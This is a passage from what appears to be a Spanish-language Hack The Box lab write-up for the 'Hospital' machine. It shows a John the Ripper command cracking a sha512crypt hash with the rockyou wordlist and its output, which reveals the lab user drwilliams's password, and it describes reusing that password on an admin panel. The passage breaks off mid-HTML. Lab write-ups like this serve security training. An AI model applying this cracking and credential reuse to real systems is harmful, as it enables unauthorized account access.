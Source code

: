 - Obtenemos la contraseña.

```bash
➜  content john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwe123!@#        (drwilliams)
1g 0:00:01:04 DONE (2024-05-11 16:52) 0.01554g/s 3334p/s 3334c/s 3334C/s raycharles..pl@yboy
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

- Podemos usar las credenciales en el panel de administración.

<p align="center">
<img src="/assets/hackthebox/img/machines/medium/hospital/11.png">
</p>

- Vemos esto.

<p align="center">